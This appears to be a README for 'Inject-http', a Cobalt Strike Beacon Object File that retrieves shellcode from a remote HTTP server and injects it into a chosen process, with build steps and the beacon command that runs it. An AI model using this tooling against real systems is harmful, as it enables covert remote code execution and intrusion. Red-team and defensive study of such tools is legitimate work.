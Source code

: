 # Inject-http BOF
A custom `inject` function of Cobalt Strike, which injects the shellcode in a process by retrieving the shellcode from a remote HTTP server.

## Usage  

Compile the script using `make`.  
```
make
```

Then load `inject-http.cna` to Cobalt Strike. To run the BOF inside a Beacon:  
```
beacon> inject-http <pid>
```

## Demo  

![wmi_in_action](https://github.com/kleiton0x00/RemoteShellcodeExec/assets/37262788/abc3b752-647f-4262-8fab-cedf631d4dda)

